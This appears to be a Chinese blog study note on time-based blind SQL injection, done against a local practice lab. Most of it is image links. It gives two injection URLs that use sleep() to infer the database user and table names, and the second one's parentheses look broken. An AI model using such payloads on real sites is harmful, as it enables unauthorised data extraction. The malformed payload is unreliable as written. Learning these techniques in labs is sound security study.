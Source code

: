```yaml
---
layout: post
title: "1.3.2-SQL注入-SQL盲注-时间盲注"
date: 2018-06-23
category: web安全
tags: sql注入 sql盲注
---
```


## 时间盲注

### 时间盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/02.png)



### 时间盲注方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/03.png)
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

时间注入脚本  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/05.png)

